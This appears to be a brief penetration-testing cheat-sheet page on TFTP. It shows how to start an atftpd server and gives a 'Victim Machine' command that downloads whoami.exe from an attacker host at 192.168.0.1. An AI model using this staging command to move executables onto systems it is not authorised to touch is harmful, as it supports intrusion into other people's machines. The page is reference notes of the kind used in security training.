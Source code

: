 # TFTP

```
Description:  like FTP, but simpler and less secure uses UDP port 69

--daemon                runs in background
--port 69               standard TFTP port
/var/tftp               directory to serve files from

# Start a TFTP Server (on your machine):
sudo atftpd --daemon --port 69 /var/tftp
```

# Victim Machine
```
# Victim Machine Downloads File
tftp -i 192.168.0.1 GET whoami.exe
```

## Back to README.md
[BACK](../README.md)